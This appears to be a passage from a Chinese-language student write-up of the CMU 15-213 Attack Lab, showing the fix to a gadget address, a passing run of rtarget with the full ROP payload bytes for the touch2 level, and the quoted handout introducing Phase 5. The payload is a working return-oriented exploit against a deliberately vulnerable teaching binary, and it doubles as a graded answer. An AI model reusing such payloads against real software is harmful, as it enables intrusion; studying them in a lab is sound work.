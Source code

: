  

反思：

可以直接找到能够编译出`popq %rdi`的代码为`5f`，找到它。。。？

**推翻：5f对应的地址为40141b，越过farm指定的范围，不可取**

重新审阅上述代码，发现`cc 40 19`处顺序有问题，应改为`cc 19 40`改正后重新编译再输入得到:

```
zwen@zwen-virtual-machine:~/桌面/cmu-15213-labs/target1$ ./rtarget -q <attack-raw.txt
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 

```



答案正确

另：正确答案不唯一，只要满足条件即可。翻阅farm发现有诸多地址都可以实现相同的功能，这里不一一列举。



#### Phase5(Extra Phase)

摘录一段老爷子的话：

> Before you take on the Phase 5, pause to consider what you have accomplished so far. In Phases 2 and 3, you caused a program to execute machine code of your own design. If CTARGET had been a network server, you could have injected your own code into a distant machine. In Phase 4, you circumvented two of the main devices modern systems use to thwart buffer overflow attacks. Although you did not inject your own code, you were able inject a type of program that operates by stitching together sequences of existing code. You have also gotten 95/100 points for the lab. That’s a good score. If you have other pressing obligations consider stopping right now.
> Phase 5 requires you to do an ROP attack on RTARGET to invoke function touch3 with a pointer to a string representation of your cookie. That may not seem significantly more difficult than using an ROP attack to invoke touch2, except that we have made it so. Moreover, Phase 5 counts for only 5 points, which is not a true measure of the effort it will require. Think of it as more an extra credit problem for those who want to go beyond the normal expectations for the course.

目的：使用ROP实现Phase3

要求与建议：

+ 全部的gadgets均可使用
+ 新增`movl`的使用，注意`movl`指令会将目标寄存器的高4字节置0
+ 标准答案要求使用8个gadgets（不要求互不相同）



思路分析：
